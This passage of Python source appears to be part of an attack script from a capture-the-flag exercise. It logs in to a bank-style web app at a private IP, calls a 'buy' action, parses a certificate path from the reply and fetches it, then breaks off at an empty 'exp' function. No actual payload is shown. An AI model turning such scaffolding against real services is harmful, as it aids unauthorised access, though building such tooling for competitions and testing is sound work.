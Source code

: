 ```python
    if 'Register success' in response.content:
        print('Register success:{}'.format(username))
        return True
    print('Register error!{}'.format(username))
    return False


def login(ip, username, password):
    paramsGet = {"op": "login", "action": "user"}
    paramsPost = {"password": password, "submit": "Login", "username": username}
    headers = {"Origin": "https://10.0.10.5",
               "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3",
               "Cache-Control": "max-age=0", "Upgrade-Insecure-Requests": "1",
               "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/75.0.3770.80 Safari/537.36",
               "Referer": "https://10.0.10.5/?action=user&op=login", "Connection": "close",
               "Accept-Encoding": "gzip, deflate", "Accept-Language": "zh-CN,zh;q=0.9,en;q=0.8",
               "Content-Type": "application/x-www-form-urlencoded"}
    response = session.post("https://{}/".format(ip), data=paramsPost, params=paramsGet, headers=headers)

    # print("Status code:   %i" % response.status_code)
    # print("Response body: %s" % response.content)
    if 'Login failed' in response.content:
        print('Login failed:{}'.format(username))
        return False
    if "Let's buy some" in response.content:
        print('Login succ:{}'.format(username))
        return True


def buy(ip, name='JPM', note='1', amount='1', hash='sha1'):
    paramsGet = {"op": "buy", "action": "bank"}
    paramsPost = {"name": name, "note": note, "amount": amount, "hash": hash}
    headers = {"Origin": "https://10.0.10.5",
               "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3",
               "Cache-Control": "max-age=0", "Upgrade-Insecure-Requests": "1",
               "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/75.0.3770.80 Safari/537.36",
               "Referer": "https://10.0.10.5/", "Connection": "close", "Accept-Encoding": "gzip, deflate",
               "Accept-Language": "zh-CN,zh;q=0.9,en;q=0.8"}
    response = session.post("https://{}/".format(ip), data=paramsPost, params=paramsGet, headers=headers)

    # print("Status code:   %i" % response.status_code)
    # print("Response body: %s" % response.content)
    res = response.content
    p = res.split("cert'>")[1].split("</a>")[0]
    return p


def get_data(ip, p):
    target_path = "https://{}/{}".format(ip, p)
    response = session.get(target_path)
    # print(response.content)
    res = response.content
    return res


def exp(res):
```